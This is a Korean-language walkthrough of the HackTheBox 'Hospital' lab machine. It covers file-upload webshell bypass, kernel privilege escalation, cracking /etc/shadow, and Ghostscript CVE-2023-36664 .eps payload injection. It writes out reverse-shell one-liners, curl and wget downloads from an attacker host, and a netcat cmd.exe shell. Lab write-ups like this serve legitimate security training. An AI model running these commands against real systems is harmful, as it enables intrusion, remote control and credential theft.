 ### 사용된 취약점: 파일 업로드 취약점, 커널 취약, Ghostscript command injection
### 초기 침투
![1](https://github.com/murphy701/security/assets/50907298/a5b8506f-5d2a-42ba-8c6a-da5b65643419)
- 스캔 결과
  - 443:webmail(roundcube)
  - 8080:login, upload
  - RPC
<br></br>
- 파일 업로드 부분이 있어서 웹쉘 업로드를 시도하였지만 거부당함
  - 이미지 파일로 만들고 올리는 것으로 시도함
  - touch exploit.jpg; echo test>exploit.jpg로 파일 생성
  - https://github.com/flozz/p0wny-shell?source=post_page-----887fd3d6fee9
    - 해당 웹쉘을 사용(코드만)
  - jpg에 소스코드를 넣고 exploit.jpg파일을 업로드 할 때 burpsuite에서 exploit.jpg를 phar로 변경하여 업로드
  - hospital.htb:8080/uploads.exploit.phar로 연결
 <br></br>
  - 연결한 상태에서 rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> 4444 >/tmp/f 로 reverse shell을 연결
  - kali에서는 nc -lnvp 4444로 대기
  - 연결 후 python3 -c 'import pty; pty.spawn("/bin/bash")'실행
    <br></br>

- 연결 이후 uname -r로 커널 버전 확인
- 취약한 버전의 커널인 것으로 확인되어 권한 상승을 시도함
  - CVE-2023-32629
  - 6.2.0, 5.19.0, 5.4.0 우분투에서 취약함
  - 마운트된 파일에 권한 있는 확장 속성 설정을 가능하게 하는 취약점
  - 저번 htb에서 비슷하고 본것 같은 권한상승 방법
- https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9
- 해당 웹쉘을 리버스 쉘로 연결된 상태에서 wget \<ip\>:8001/exploit.sh로 다운로드 시킨다.
- kali에서는 /var/www/html에 exploit.sh를 위치 시키고 python3 -m http.server 8001을 실행한다.
  - 실행하여 권한을 상승한다.
<br></br>

- cat /etc/shadow로 drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash를 확인할 수 있다.
  - pw hash는 sha-512인 것을 알 수 있다.
- john --wordlist=/usr/share/wordlists/rockyou.txt drwilliams.txt로 패스워드를 크랙할 수 있다.
  - 해시 값 크랙 시 파일에 넣을 값으로 shadow파일 전체를 넣는다
  - pw 해시값 만이 아닌 유효 시간 부분을 전부 넣는다
  <br></br>   
- https://10.10.11.241:443으로 접속
  - drwilliams와 크랙으로 얻은 pw로 접속
- mailbox 에서 찾은 내용으로 .eps, ghostscript가 있음
   - ghostscript가 파이프 문자의 권한 유효성 검사 실패로 임의 코드 실행하는 취약점
   - 이를 이용하여 .eps파일에 스크립트 삽입
  <br></br>
- https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----887fd3d6fee9
- nc.exe, nc64.exe와 해당 웹 쉘을 다운로드한다.
  - python3 -m http.server 8001
    - 주의 사항으로 파이썬 웹 서버 명령 실행 시 경로를 /var/www/html에서 실행해야 함
  - python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.24:8001/nc64.exe -o nc.exe" --filename file.eps
    - 해당 명령으로 file.eps에 페이로드를 삽입
- 이후 메일에 file.eps파일을 첨부하여 보내면 해당 서버에 nc64.exe를 다운로드 시킴
<br></br>
- nc64.exe를 다운로드 시킨 상태에서 해당 명령으로 리버스 쉘을 얻는 파일을 다시 만든다
- python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe <ip> 1111 -e cmd.exe" --filename file.eps
  - nc -lnvp 1111로 연결을 기다리고 메시지에 새로운 file.eps를 보내면 리버스 쉘을 획득할 수 있다.
- 이후에 Desktop에서 type user.txt를 이용하여 플래그 값을 출력한다
  <br></br>
### 권한 상승
- documents에서 ghostscript.bat에서 pw를 찾을 수 있다.
  - type ghostscript.bat
- 해당 pw를 이용하여 rpc연결을 시도한다.
  - drwilliams와 찾은 pw를 이용
  - rpcclient -U "drbrown" hospital.htb
### querydispinfo 실행
![querydispinfo](https://github.com/murphy701/security/assets/50907298/5efc379f-077f-466c-abc5-3d7abecc44ab)
- desc 부분에 admin과 guest가 built-in account for ~ the computer/domain이 설명 되어 있음
  - 어드민 정보와 게스트 정보가 같은 도메인에 공유 되어 있음
    - 윈도우에서 흔한 것으로 같은 도메인에서 관리됨
    - 같은 pc에 존재하는 것으로 추정
<br></br>
- 기존에 리버스 쉘로 연결 되어 있던 클라이언트 pc에서 C:\xampp\htdocs에 powny 웹쉘을 업로드
  - curl <ip>:8001/exploit.php -o shell.php
- https://hospital.htb/shell.php로 접속 시 쉘을 얻을 수 있음
  - whoami 실행 시 nt authority\system 결과가 출력되며 권한 상승을 시킨 것을 알 수 있음
- C:\Users\Administrator 에서 root.txt를 읽을 수 있게 됨
<br></br>
### 알게 된 점
- 파이썬으로 웹 서버 실행하여 파일을 다운로드 하게 할 때 /var/www/html에서 python3 -m http.server를 실행해야 정상적으로 작동한다.
- ghostscript
  - 어도비의 포스트 스크립트 및 pdf페이지 기술 언어에 대한 인터프리터를 기반으로 한 소프트웨어
